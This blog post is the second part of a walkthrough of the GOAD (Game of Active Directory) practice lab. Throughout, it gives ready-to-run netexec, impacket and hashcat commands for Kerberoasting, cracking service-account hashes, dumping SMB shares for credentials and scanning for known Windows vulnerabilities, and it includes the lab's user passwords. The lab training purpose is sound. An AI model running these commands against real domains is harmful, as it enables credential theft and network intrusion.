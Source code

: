 +++
title = "GOAD Part 2: Domain Enumeration"
date = 2024-11-14T01:29:29+03:00
tags = ["cybersecurity"]
#Decide to delete draft or change it to false in order to display post on website
+++

---

# GOAD Part 2: Domain Enumeration

> ### Table of Contents

- [Introduction](#introduction)
- [Kerberoasting in the north domain](#kerberoasting-in-the-north-domain)
- [Cracking with hashcat](#cracking-with-hashcat)
- [Spidering and Dumping Shares](#spidering-and-dumping-shares)
- [Known Vulnerabilities](#known-vulnerabilities)

## Introduction

- In the previous walkthrough we exploited various misconfigurations and obtained some valid domain user credentials.
- With valid credentials, we can perform more enumeration using tools like bloodhound and also explore various attacks such as kerberoasting. We will explore kerberoasting and domain enumeration using bloodhound…..

## Kerberoasting in the north domain

![goad_part2_1](https://github.com/user-attachments/assets/077ccce7-ed98-4800-aee8-83f15893809a)

- With our valid credentials we can try and abuse kerberoasting to obtain more credential material that can grant further access to systems and data.
- Kerberoasting involves attempting to crack passwords of service accounts by exploiting the Kerberos authentication protocol.
- We obtain service tickets associated with these accounts and then perform offline password cracking.
- Using netexec:

```s
nxc ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

![goad_part2_2](https://github.com/user-attachments/assets/a2ed153d-e430-4a0a-8d7f-d175cfb4e8d2)

- Using impacket:

```s
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```

![goad_part2_3](https://github.com/user-attachments/assets/96e24b3e-2cf0-4fb4-94c9-d85bb627ab97)

- We obtain 3 kerberoastable users: sansa.stark, jon.snow and sql_svc

## Cracking with hashcat

- Running hashcat in the following mode with a rockyou password list:

![goad_part2_4](https://github.com/user-attachments/assets/81ae2678-4415-4a6e-89dd-6159a939f266)

- We get the plaintext credentials of the jon.snow user.

```s
hashcat -m 13100 -a 0 KERBEROASTING /usr/share/wordlists/rockyou.txt.gz
```

![goad_part2_5](https://github.com/user-attachments/assets/8e54345d-7806-4602-9c4b-83f39d705305)

## Spidering and Dumping Shares

![goad_part2_6](https://github.com/user-attachments/assets/4f048a00-4ef5-4269-8a60-a1f2b42dc918)

- Check for shares and permissions on them.

```s
 nxc smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares
```

![goad_part2_7](https://github.com/user-attachments/assets/c90eda41-81f6-48c9-8bdf-7a246ad57a30)

- Dump all files from all the readable shares.

```s
 nxc smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M spider_plus -o DOWNLOAD_FLAG=TRUE
```

![goad_part2_8](https://github.com/user-attachments/assets/2c32799d-13db-46c7-8617-e4c625ebd0d7)

- We have a couple of interesting dumped files.

![goad_part2_9](https://github.com/user-attachments/assets/e55c97c9-4c47-4d76-b50e-dadc5e46bec1)

- We discover credentials to jeor.mormont user.

![goad_part2_10](https://github.com/user-attachments/assets/e25fc7de-cbcb-49b2-8b50-1653eac34c9b)

![goad_part2_11](https://github.com/user-attachments/assets/0cebbe58-193a-4f53-8f46-7ed839c96eb8)

## Known Vulnerabilities

![goad_part2_12](https://github.com/user-attachments/assets/486cbc51-561a-42da-a586-64a25b385c80)

- Some of these vulnerabilities require credentials to enumerate so we will use a domain user’s credentials with netexec, to check the various known vulnerabilities.

```s
 nxc smb 192.168.56.10-23 -u 'jon.snow' -p 'iknownothing' -M zerologon -M nopac -M printnightmare -M smbghost -M ms17-010
```

- We are able to identify printnightmare and nopac on winterfell:

![goad_part2_13](https://github.com/user-attachments/assets/333c11dd-0c8f-484b-9986-11fcbf3bfd93)
